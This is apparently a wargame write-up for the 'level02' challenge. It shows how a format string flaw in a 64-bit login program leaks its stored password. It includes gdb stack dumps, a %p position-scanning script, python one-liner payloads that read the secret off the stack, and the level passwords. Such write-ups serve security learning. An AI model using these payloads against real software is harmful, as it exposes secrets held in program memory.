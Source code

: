 # Level02 - 64 bits - Format string attack

## Local script usage

Requirements:

- `gdb-peda`
- `getenv64`

You can setup requirements with the script: [scripts/installUtils.sh](../../scripts/installUtils.sh)

```shell
./scripts/installUtils.sh
./level01/Ressources/main.sh
```

## Passwords and token

|         |                                            |
| ------- | ------------------------------------------ |
| level02 | `PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv` |
| level02 | `Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H` |

## Steps to resolve on VM

See our assembly interpretation in [source file](../source.c)

We notice the vulnerable printf that does not use format string and print directly the variable `username`

For example:

```shell
~/level02
--[ Username: AAAA
--[ Password: BBBB
  AAAA does not have access!

~/level02
--[ Username: %s # <= Format string vulnerability
--[ Password: BBBB
*****************************************
BBBB does not have access!
```

Unfortunately it difficult to debug the stack because of `fopen`, `fread` and `fclose` that try to open, read and close the level03's flag.

We can use [LD_PRELOAD trick](http://www.goldsborough.me/c/low-level/kernel/2016/08/29/16-48-53-the_-ld_preload-_trick/) to mock those functions.

(This step is not really necessary, but it is better to illustrate)

We wrote a file for this job: [debugHelper.c](./debugHelper.c)

We have to send the file with `scp` and then compile it.

```shell
# on local machine
scp -P $OR_PORT -r debugHelper.c level02@$OR_HOST:/tmp/debugHelper.c

# on remote machine
gcc -shared -fPIC -ldl debugHelper.c -o debugHelper.so
export LD_PRELOAD=/tmp/debugHelper.so
```

```shell
gdb-peda$ b*main+654 # before vulnerable printf
gdb-peda$ run < <(echo "BBBBBB\nCCCCCC")
telescope 25

[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe390 --> 0x7fffffffe598 --> 0x7fffffffe7f2 ("/home/users/level02/level02")
0008| 0x7fffffffe398 --> 0x1f7ff9f10
0016| 0x7fffffffe3a0 --> 0x434343434343 ('CCCCCC')
0024| 0x7fffffffe3a8 --> 0x0
0032| 0x7fffffffe3b0 --> 0x0
0040| 0x7fffffffe3b8 --> 0x0
0048| 0x7fffffffe3c0 --> 0x0
0056| 0x7fffffffe3c8 --> 0x0
0064| 0x7fffffffe3d0 --> 0x0
0072| 0x7fffffffe3d8 --> 0x0
0080| 0x7fffffffe3e0 --> 0x0
0088| 0x7fffffffe3e8 --> 0x0
0096| 0x7fffffffe3f0 --> 0x0
0104| 0x7fffffffe3f8 --> 0x0
0112| 0x7fffffffe400 --> 0x100000000
0120| 0x7fffffffe408 --> 0x0
0128| 0x7fffffffe410 ('A' <repeats 40 times>) # <=== fake Flag
0136| 0x7fffffffe418 ('A' <repeats 32 times>)
0144| 0x7fffffffe420 ('A' <repeats 24 times>)
0152| 0x7fffffffe428 ('A' <repeats 16 times>)
0160| 0x7fffffffe430 ("AAAAAAAA")
0168| 0x7fffffffe438 --> 0x0
0176| 0x7fffffffe440 --> 0x424242424242 ('BBBBBB')
0184| 0x7fffffffe448 --> 0x0
0192| 0x7fffffffe450 --> 0x0
[------------------------------------------------------------------------------]
```

We can see the fake flag at the address `0x7fffffffe410`.

As we don't know exactly the position of the the flag, we will use a format string attack to find the flag. We will test several position using a loop.

Lets run [our script](./script.sh)

```shell
./script.sh
  %00$p: %0$p                 | xxd -r | rev  =>
  %01$p: 0x7fffffffe970       | xxd -r | rev  =>
  %02$p: (nil)                | xxd -r | rev  =>
  %03$p: 0x70                 | xxd -r | rev  =>  p
  %04$p: 0x2a2a2a2a2a2a2a2a   | xxd -r | rev  =>  ********
  %05$p: 0x2a2a2a2a2a2a2a2a   | xxd -r | rev  =>  ********
  %06$p: 0x7fffffffeb68       | xxd -r | rev  =>
  %07$p: 0x1f7ff9a08          | xxd -r | rev  =>
  %08$p: 0x64726f7773736170   | xxd -r | rev  =>  password
  %19$p: (nil)                | xxd -r | rev  =>
  (...)
  %20$p: 0x100000000          | xxd -r | rev  =>
  %21$p: (nil)                | xxd -r | rev  =>
  %22$p: 0x756e505234376848   | xxd -r | rev  =>  Hh74RPnu
  %23$p: 0x45414a3561733951   | xxd -r | rev  =>  Q9sa5JAE
  %24$p: 0x377a7143574e6758   | xxd -r | rev  =>  XgNWCqz7
  %25$p: 0x354a35686e475873   | xxd -r | rev  =>  sXGnh5J5
  %26$p: 0x48336750664b394d   | xxd -r | rev  =>  M9KfPg3H

  It should be:  Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
  (...)
```

We have something like 40 chars in a row. It should be the flag.

Lets try

```shell
~/level02
  ===== [ Secure Access System v1.0 ] =====
  /***************************************\
  | You must login to access this system. |
  \**************************************/
  --[ Username:
  --[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
  *****************************************
  Greetings, !
$ whoami
  level03
$ cat /home/users/level03/.pass
  Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

Another solution :

We have printf exploit possibility as our buffer is used as the first argument of printf, we can bring our own modifiers. We can use that to print the stack starting from the printf function since we can't debug with gdb because of fopen issues etc...

Let's check that :

```shell
./level02 
  ===== [ Secure Access System v1.0 ] =====
  /***************************************\
  | You must login to access this system. |
  \**************************************/
  --[ Username: %p %p %p %p %p %p %p %p %p %p
  --[ Password: AAAA
  *****************************************
  0x7fffffffe500 (nil) 0x41 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6f8 0x1f7ff9a08 0x41414141 (nil) (nil) does not have access!
```

Ok, with the %p modifier we can see that our buffer "AAAA" starts at the 8th argument.
We also know that our password buffer starts at `[rbp-0x110]` in the stack and the flag starts at `[rbp-0xa0]` => difference of 0x70 = 112 bytes.
Since `%p` is printing a maximum of 8 bytes long arguments, the flag argument position will be after 14 arguments (112 / 8 = 14), which means the 22th (our password is 8th, so 14 + 8 = 22)

```shell
(python -c 'print("%22$p "+"%23$p "+"%24$p "+"%25$p "+"%26$p "+"%27$p "+"%28$p")' ; python -c 'print("AAAA")')  | ./level02
  ===== [ Secure Access System v1.0 ] =====
  /***************************************\
  | You must login to access this system. |
  \**************************************/
  --[ Username: --[ Password: *****************************************
  0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x3225207024323225 does not have access!
```

Now that we have the flag values (terminated by a `(nil)` value), we can put it in the `username` buffer and let the error part print it for us ("`username` does not have access!")

```shell
level02@OverRide:~$ (python -c 'print("\x48\x68\x37\x34\x52\x50\x6e\x75"+"\x51\x39\x73\x61\x35\x4a\x41\x45"+"\x58\x67\x4e\x57\x43\x71\x7a\x37"+"\x73\x58\x47\x6e\x68\x35\x4a\x35"+"\x4d\x39\x4b\x66\x50\x67\x33\x48")' ; python -c 'print("AAAA")')  | ./level02
  ===== [ Secure Access System v1.0 ] =====
  /***************************************\
  | You must login to access this system. |
  \**************************************/
  --[ Username: --[ Password: *****************************************
  Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H does not have access!
```

## Sources

### ASM

- [What does the “rep stos” x86 assembly instruction sequence do?](https://stackoverflow.com/questions/3818856/what-does-the-rep-stos-x86-assembly-instruction-sequence-do)

### C

- [LD_PRELOAD Trick](http://www.goldsborough.me/c/low-level/kernel/2016/08/29/16-48-53-the_-ld_preload-_trick/)
- [LD_PRELOAD Trick (with call to real function)](https://catonmat.net/simple-ld-preload-tutorial-part-two)

- [Man exit](https://linux.die.net/man/3/exit)
- [Man fgets](https://linux.die.net/man/3/fgets)
- [Man fclose](https://linux.die.net/man/3/fclose)
- [Man fopen](https://linux.die.net/man/3/fopen)
- [Man fread](https://linux.die.net/man/3/fread)
- [Man fwrite](https://linux.die.net/man/3/fwrite)
- [Man memset](https://linux.die.net/man/3/memset)
- [Man printf](https://linux.die.net/man/3/printf)
- [Man puts](https://linux.die.net/man/3/puts)
- [Man strncmp](https://linux.die.net/man/3/strncmp)
- [Man strcspn](https://linux.die.net/man/3/strcspn)
- [Man system](https://linux.die.net/man/3/system)
